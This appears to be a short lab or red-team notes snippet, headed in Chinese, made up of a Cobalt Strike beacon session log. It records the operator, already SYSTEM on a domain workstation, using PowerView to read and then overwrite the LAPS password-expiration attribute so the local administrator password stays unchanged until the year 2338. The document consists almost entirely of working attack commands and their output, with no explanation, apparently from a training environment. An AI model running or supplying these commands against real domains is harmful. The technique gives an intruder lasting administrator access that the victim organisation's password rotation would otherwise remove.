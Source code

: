 ```
设置密码过期时间到2338年
```
beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
[*] Tasked beacon to import: C:\Tools\PowerSploit\Recon\PowerView.ps1
[+] host called home, sent: 145560 bytes
beacon> powershell Get-DomainObject -Identity wkstn-2 -Properties ms-mcs-admpwdexpirationtime
[*] Tasked beacon to run: Get-DomainObject -Identity wkstn-2 -Properties ms-mcs-admpwdexpirationtime
[+] host called home, sent: 465 bytes
[+] received output:
#< CLIXML

ms-mcs-admpwdexpirationtime
---------------------------
         232609935231523081


<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"><Obj S="progress" RefId="0"><TN RefId="0"><T>System.Management.Automation.PSCustomObject</T><T>System.Object</T></TN><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Preparing modules for first use.</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Completed</T><SR>-1</SR><SD> </SD></PR></MS></Obj></Objs>
beacon> run hostname
[*] Tasked beacon to run: hostname
[+] host called home, sent: 26 bytes
[+] received output:
wkstn-2

beacon> getuid
[*] Tasked beacon to get userid
[+] host called home, sent: 8 bytes
[*] You are NT AUTHORITY\SYSTEM (admin)
beacon> powershell Set-DomainObject -Identity wkstn-2 -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
[*] Tasked beacon to run: Set-DomainObject -Identity wkstn-2 -Set @{"ms-mcs-admpwdexpirationtime"="232609935231523081"}
[+] host called home, sent: 521 bytes
[+] received output:
#< CLIXML
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"><Obj S="progress" RefId="0"><TN RefId="0"><T>System.Management.Automation.PSCustomObject</T><T>System.Object</T></TN><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Preparing modules for first use.</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Completed</T><SR>-1</SR><SD> </SD></PR></MS></Obj></Objs>
beacon> powershell Get-AdmPwdPassword -ComputerName wkstn-2 | fl
[*] Tasked beacon to run: Get-AdmPwdPassword -ComputerName wkstn-2 | fl
[+] host called home, sent: 393 bytes
[+] received output:
#< CLIXML


ComputerName        : WKSTN-2
DistinguishedName   : CN=WKSTN-2,OU=Workstations,DC=dev,DC=cyberbotic,DC=io
Password            : 
ExpirationTimestamp : 2/11/2338 11:05:23 AM
